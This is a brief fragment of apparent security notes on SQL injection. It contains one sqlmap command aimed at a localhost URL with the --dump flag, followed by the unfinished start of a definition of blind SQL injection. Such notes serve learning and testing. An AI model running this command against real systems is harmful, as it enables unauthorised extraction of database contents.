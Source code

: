 ### N o T e S

---

```py
python sqlmap.py -u http://127.0.0.1/xxxxxxxxxx/fetch?id=1 --dump
```

Blind SQL is the SQLI where 
